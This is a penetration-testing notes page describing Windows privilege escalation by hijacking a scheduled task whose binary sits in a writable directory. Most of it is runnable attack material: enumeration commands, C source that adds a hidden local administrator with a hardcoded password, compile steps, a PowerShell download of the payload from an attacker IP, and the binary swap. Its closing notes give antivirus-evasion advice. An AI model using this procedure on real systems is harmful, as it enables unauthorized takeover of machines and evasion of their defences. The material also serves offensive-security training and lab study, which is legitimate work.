

> [!abstract] Privilege Escalation via Scheduled Task Hijacking
> Windows Task Scheduler allows executing applications or scripts automatically at specific times or intervals. If an attacker finds a scheduled task that runs as `SYSTEM` (or a high-privileged user) and executes a binary in a directory where the current user has write access, the attacker can replace the legitimate executable with a malicious payload to escalate privileges.
> **MITRE ATT&CK Mapping:** [T1053.005 - Scheduled Task/Job: Scheduled Task](https://attack.mitre.org/techniques/T1053/005/) | [T1574.011 - Hijack Execution Flow: Services Registry Permissions Weakness](https://attack.mitre.org/techniques/T1574/011/)

## Attack Flow Diagram



---

## Step 1: Enumeration

> [!info]+ Finding Vulnerable Scheduled Tasks
> The goal is to find tasks that run frequently (e.g., every minute) and execute a binary from a non-standard, potentially writable directory.
> 
> **PowerShell / CMD Enumeration:**
> ```powershell
> # List all scheduled tasks and their actions
> Get-ScheduledTask | Select-Object TaskName, State
> Get-ScheduledTask | Where-Object {$_.State -eq 'Ready'} | Get-ScheduledTaskInfo
> 
> # Detailed list via CMD
> schtasks /query /fo LIST /v
> ```
> 
> **Check Permissions (ACL):**
> Once you identify the target executable path (e.g., `C:\xampp\users\bin\mysq.exe`), check if your current user has write access to that directory or file.
> ```powershell
> icacls "C:\xampp\users\bin\mysq.exe"
> # Look for your user or group having (W) Write or (M) Modify access.
> ```

---

## Step 2: Generate Malicious Payload

> [!danger]+ Creating the Replacement Executable
> We use a simple C program that adds a local administrator account. This avoids dropping a reverse shell payload that might be caught by AV if we just want a quick escalation.
> 
> **C Code (`malcod.c`):**
> ```c
> #include <stdlib.h>
> int main() {
>     int i;
>     i = system("net user /add adolf KiSojkad332456");
>     i = system("net localgroup administrators adolf /add");
>     return 0;
> }
> ```
> 
> **Compile on Linux (using MinGW):**
> ```bash
> x86_64-w64-mingw32-gcc malcod.c -o adduser.exe
> ```

---

## Step 3: Delivery & Hijacking

> [!warning]+ Replacing the Legitimate Binary
> Upload your malicious payload to the target machine, backup the original executable (for OPSEC and system stability), and replace it.
> 
> **Upload Payload:**
> ```powershell
> # Download from attacker machine
> iwr -uri http://172.20.10.1/adduser.exe -OutFile mysq.exe
> ```
> 
> **Backup & Replace:**
> ```powershell
> # Backup the original legitimate file
> move "C:\xampp\users\bin\mysq.exe" "C:\xampp\users\bin\mysq.exe.bak"
> 
> # Move the malicious payload to the target directory
> move mysq.exe "C:\xampp\users\bin\mysq.exe"
> ```

---

## Step 4: Execution

> [!success]+ Triggering the Exploit
> Now, you must wait for the scheduled task to execute. If the task runs "every minute" (as discovered in Step 1), you only need to wait a few seconds.
> 
> Once the Task Scheduler runs `mysq.exe`, it will execute with the privileges of the task (e.g., `NT AUTHORITY\SYSTEM`).
> 
> **Verify Escalation:**
> ```cmd
> :: If the payload ran successfully, you can now log in as the new admin
> runas /user:adolf cmd
> :: Enter password: KiSojkad332456
> ```

> [!bug] OPSEC & Stability Notes
> - **System Stability:** If the scheduled task checks for a specific return code or output from the original executable, replacing it with a simple `adduser` script might cause the task to report a failure in the Event Logs.
> - **Restoring Original:** Always remember to restore the original `.bak` file after gaining elevated access to maintain persistence without breaking system functionality.
> - **AV Evasion:** If Windows Defender is active, it may flag the `system("net user /add...")` command. Consider using Win32 API calls (`NetUserAdd`) instead of `system()` for stealth.

